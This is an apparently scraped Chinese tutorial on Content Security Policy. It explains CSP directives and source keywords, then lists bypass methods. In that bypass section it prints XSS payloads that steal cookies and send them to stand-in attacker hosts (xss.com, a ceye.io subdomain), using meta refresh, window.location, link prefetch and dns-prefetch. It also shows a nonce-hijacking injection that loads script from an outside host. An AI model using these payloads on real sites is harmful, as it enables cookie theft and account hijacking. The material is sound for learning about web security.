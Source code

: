 # CSP

内容安全策略或CSP是一种内置的浏览器安全措施，用于防御跨站点脚本（XSS）等Web攻击。该策略的规则用于定义一组浏览器可以安全地从中加载内容的路径和源，并给出相应的描述。其中，这些资源包括图像、frame、javascripts等。


一个CSP头由多组CSP策略组成，中间由分号分隔，就像这样：


```plain
Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-inline'
Plain Text
```



其中每一组策略包含一个策略指令和一个内容源列表


**一、常用的策略指令：**





### **default-src**





default-src 指令定义了那些没有被更精确指令指定的安全策略。这些指令包括：





**child-src**child-src 指定定义了 web workers 以及嵌套的浏览上下文（如`<frame>`和`<iframe>`）的源。

* 
**connect-src**connect-src定义了请求、XMLHttpRequest、WebSocket 和 EventSource 的连接来源。

* 
**font-src**font-src定义了字体加载的有效来源

* 
**img-src**img-src定义了页面中图片和图标的有效来源

* 
* **media-src**
* **object-src**

**script-src**script-src定义了页面中Javascript的有效来源

* 
**style-src**style-src定义了页面中CSS样式的有效来源

* 



## **二、内容源：**





内容源有三种：源列表、关键字和数据


**1、源列表**





```plain
源列表是一个字符串，指定了一个或多个互联网主机（通过主机名或 IP 地址），和可选的或端口号。站点地址可以包含可选的通配符前缀 (星号, '*')，端口号也可以使用通配符 (同样是 '*') 来表明所有合法端口都是有效来源。主机通过空格分隔。有效的主机表达式包括：    http://*.foo.com （匹配所有使用 http协议加载 foo.com 任何子域名的尝试。）    mail.foo.com:443 （匹配所有访问 mail.foo.com 的 443 端口 的尝试。）    https://store.foo.com  （匹配所有使用 https协议访问 store.foo.com 的尝试。）如果端口号没有被指定，浏览器会使用指定协议的默认端口号。如果协议没有被指定，浏览器会使用访问该文档时的协议。
Plain Text
```



**2、关键字**





‘none’  代表空集；即不匹配任何 URL。两侧单引号是必须的。

* 
‘self’  代表和文档同源，包括相同的 URL 协议和端口号。两侧单引号是必须的。

* 
‘unsafe-inline’  允许使用内联资源，如内联的

* 



### **3、数据**





data:  允许data: URI作为内容来源。

* 
* mediastream:  允许mediastream: URI作为内容来源。 Content-Security-Policy: default-src 'self'; img-src 'self' data:; media-src mediastream:



## CSP绕过

和XSS还是绑定在一起，毕竟需要绕过的就是XSS嘛


## 1**、url跳转**





在default-src ‘none’的情况下，可以使用meta标签实现跳转





```plain
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
1
Plain Text
```






在允许unsafe-inline的情况下，可以用window.location，或者window.open之类的方法进行跳转绕过。





```plain
<script>  window.location="http://www.xss.com/x.php?c=[cookie]";</script>
123
Plain Text
```



## 2、`<link>`标签预加载 CSP对link标签的预加载功能考虑不完善。





在Chrome下，可以使用如下标签发送cookie


```plain
<link rel="prefetch" href="http://www.xss.com/x.php?c=[cookie]">
1
Plain Text
```






在Firefox下，可以将cookie作为子域名，用dns预解析的方式把cookie带出去，查看dns服务器的日志就能得到cookie





```plain
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
1
Plain Text
```






## **3、利用浏览器补全**


有些网站限制只有某些脚本才能使用，往往会使用`<script>`标签的nonce属性，只有nonce一致的脚本才生效，比如CSP设置成下面这样：


```plain
Content-Security-Policy: default-src 'none';script-src 'nonce-abc'
1
Plain Text
```






那么当脚本插入点为如下的情况时





```plain
<p>插入点</p>    <script id="aa" nonce="abc">document.write('CSP');</script>
12
Plain Text
```






这样会拼成一个新的script标签，其中的src可以自由设定





```plain
<p><script src=//14.rs a="</p>    <script id="aa" nonce="abc">document.write('CSP');</script>
Plain Text
```





